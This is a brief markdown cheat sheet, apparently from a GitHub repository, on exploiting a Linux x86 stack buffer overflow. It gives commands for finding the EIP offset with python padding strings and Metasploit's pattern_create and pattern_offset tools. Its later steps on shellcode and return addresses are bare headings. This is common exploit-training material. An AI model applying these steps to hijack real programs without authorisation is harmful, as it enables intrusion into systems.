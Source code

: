 # buffer overflow Linux x86

## Take control EIP

### Determine the offset

- Create pattern
```shell
# Rough estimation offset
$(python -c 'print("A"*1000)')
```

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

- Calculate offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset
```shell
run $(python -c "print 'A' * 1036 + 'B' * 4")
```

## Determine length shellcode

## Identification bad characters

## Generating shellcode

## Identification return address

